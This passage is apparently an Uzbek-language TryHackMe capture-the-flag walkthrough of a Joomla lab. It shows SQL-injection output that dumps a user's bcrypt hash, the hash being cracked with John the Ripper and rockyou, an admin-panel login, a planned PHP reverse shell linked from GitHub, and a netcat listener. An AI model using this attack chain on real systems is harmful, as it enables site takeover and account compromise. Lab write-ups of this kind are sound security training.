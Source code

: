 ```
Fetching CSRF token
Testing SQLi
Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
Extracting sessions from fb9j5_session
```

Endi bizda foydalanuvchining parol hashi bor. JohnTheRipper  + Rockyou.txt qo'llaymiz.

hash.txt nomli faylga yozib olamiz hashni va johnni ishga tushiramiz.

Buyruq:

```
john hash.txt -w=/usr/share/payloads/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Natija:

```
╭─mete   󰉖 ~/THM/THM-LABS/0706-2025/Joomblah                                                                                 
╰─ ❯❯ john hash -w=/usr/share/payloads/seclists/Passwords/Leaked-Databases/rockyou.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:02:01 DONE (2025-06-07 12:40) 0.008199g/s 384.3p/s 384.3c/s 384.3C/s wanker1..september19
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Parol: spiderman123

Endi esa admin panelga kiramiz.

URL: http://10.10.128.34/administrator/

Panelga kirib oldik, endi biz paneldan php kodlarga o'zgaritirishlar kiritamiz ya'ni zararli php kodni qo'shib qo'yamiz. Reverse shell!

```
https://github.com/akhatkulov/HackBox/blob/main/reverse-shell.php
```

Reverse Shellni qabul qilish:

```
nc -nvln 4444
```



